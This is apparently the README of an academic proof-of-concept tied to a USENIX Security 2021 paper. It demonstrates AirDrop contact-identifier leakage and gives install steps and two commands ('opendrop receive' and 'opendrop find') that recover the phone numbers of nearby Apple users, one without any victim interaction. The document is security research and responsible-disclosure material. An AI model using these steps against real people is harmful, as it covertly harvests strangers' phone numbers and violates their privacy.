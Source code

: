 # PoC: AirDrop Phone Number Leak

This PoC demonstrates the contact identifier leakage in Apple AirDrop that was described in

* **[HHSSW21]** Alexander Heinrich, Matthias Hollick, Thomas Schneider, Milan Stute, and Christian Weinert. **PrivateDrop: Practical Privacy-Preserving Authentication for Apple AirDrop** in _30th USENIX Security Symposium_. [Website](https://privatedrop.github.io). [Preprint](https://www.usenix.org/system/files/sec21fall-heinrich.pdf).

The paper also proposes a privacy-preserving drop-in replacement for Apple AirDrop.

**We notified Apple about this vulnerability on May 11, 2019. Until today, Apple has neither mitigated the issue nor informed us that they are planning to do so.
This means that current Apple systems are still vulnerable (iOS 14.4.2 and macOS 11.2.3 as of April 19, 2021).**

## Installation

Run the following instructions on a Mac (tested with macOS 11.2.3).

1. Checkout the repository.

```bash
git clone https://github.com/seemoo-lab/opendrop.git
cd opendrop
git checkout poc-phonenumber-leak
git submodules update --init
```

2. Install Python dependencies.

```bash
pip3 install -r requirements.txt
```

3. Build [_RainbowPhones_](https://github.com/contact-discovery/rt_phone_numbers).

```bash
brew install libomp
cd rt_phone_numbers
make -f Makefile.macOS
cd ..
```

## Usage

Our PoC is able to exploit both vulnerabilities explained in [HHSSW21]. We provide instructions on how to replicate 

**Note:** We configured the used rainbow table to only work with German mobile phone  numbers (prefix: +49). Other tables, e.g., containing all international phone numbers, can be generated with [_RainbowPhones_](https://github.com/contact-discovery/rt_phone_numbers)'s `rtgen`.

### Contact Identifier Leakage of Sender (§3.3 in [HHSSW21])

Simply run the following and wait for someone in proximity to open the AirDrop sharing menu.

```bash
python3 -m opendrop receive
```

An example output would look like this:

```
Announcing service: host opendrop, address fe80::c8b9:fbff:fee9:d544, port 8771
Starting HTTPS server
Nearby phone number: +49<...>
```

### Contact Identifier Leakage of Receiver (§3.4 in [HHSSW21])

Exploiting this vulnerability requires the victim to have the attacker in their address book. 
In particular, the attacker needs to present a valid AirDrop certificate containing its contact identifiers to the victim.
You can follow [these instructions](https://github.com/seemoo-lab/airdrop-keychain-extractor) to extract your current AirDrop certificate and use it with OpenDrop.
This attack does not require any interaction on part of the victim. Simply run:

```bash
python3 -m opendrop find
```

An example output would look like this:

```
Looking for receivers. Press Ctrl+C to stop ...
Nearby phone number: +49<...>
Found  index 0  ID a019b536c38b  name John Doe's iPhone
```
